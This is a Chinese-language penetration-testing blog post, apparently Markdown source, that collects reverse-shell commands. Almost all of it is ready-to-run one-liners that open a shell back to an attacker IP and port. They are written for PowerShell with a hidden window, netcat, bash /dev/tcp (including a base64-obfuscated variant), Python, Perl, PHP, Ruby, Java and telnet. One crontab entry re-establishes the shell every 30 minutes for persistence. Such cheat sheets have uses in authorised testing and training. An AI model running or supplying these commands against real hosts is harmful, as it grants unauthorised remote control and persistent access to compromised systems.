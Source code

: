 ```yaml
---
draft: false
date: 2016-08-06 08:36:53
title: 反弹 shell 小结
description: 
categories:
  - Pentest
tags:
  - shell
---
```


当你找到一个有命令执行的主机时，你可能想要一个交互式的shell，如果你不能添加用户或者添加ssh密钥时，你就需要反弹一个shell来实现，下面的都是反弹shell的命令

### 0x00 PowerShell
```
#更换ip和端口即可
本地：nc -lv 8888
目标：powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.10';$p='8888';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};
```

### 0x01 Netcat
```
公网：nc -lv 8888
目标：nc -e cmd.exe 123.123.123.123 8888 #nc -e /bin/sh 10.10.10.10 8888

#获得交互式的shell：
在得到shell后执行：python -c "import pty; pty.spawn('/bin/bash')"
```

### 0x02 Bash
```
bash -i >& /dev/tcp/10.10.10.10/8888 0>&1
注：这个由解析shell的bash完成，有些时候不支持

reber@wyb:~$ cat tmp.txt 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzExNC4xMTUuMTgzLjg2LzY2NjYgMD4mMQ==
reber@wyb:~$ cat tmp.txt |base64 -d
/bin/bash -i >& /dev/tcp/114.115.183.86/6666 0>&1

reber@wyb:~$ {cat,tmp.txt}|{base64,-d}|{bash,-i}
```

### 0x03 crontab
```
下面这条命令执行后会每隔30分钟反弹一次：
(crontab -l;printf "*/30 * * * * exec 9<> /dev/tcp/10.10.10.10/8888;exec 0<&9;
exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|
crontab -
```

### 0x04 Python
```python
# 下面为1条命令
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.10.10.10",8888));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 0x05 Perl
```
# 下面为1条命令
perl -e 'use Socket;$i="10.10.10.10";$p=8888;socket(S,PF_INET,SOCK_STREAM,
getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,
">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 0x06 PHP
```
php -r '$sock=fsockopen("10.10.10.10",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 0x07 Ruby
```
# 下面为1条命令
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",8888).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 0x08 Java
```
# 下面为3条命令
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/8888;cat <&5 | 
while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 0x09 telnet
```
两种方法：
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
telnet 173.214.173.151 8080 | /bin/bash | telnet 173.214.173.151 8888
第一种hacker运行：nc -vlp 8080
第二种hacker运行：nc -vlp 8080和nc -vlp 8888
```


#### Reference(侵删)：
* [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [https://www.91ri.org/6620.html](https://www.91ri.org/6620.html)
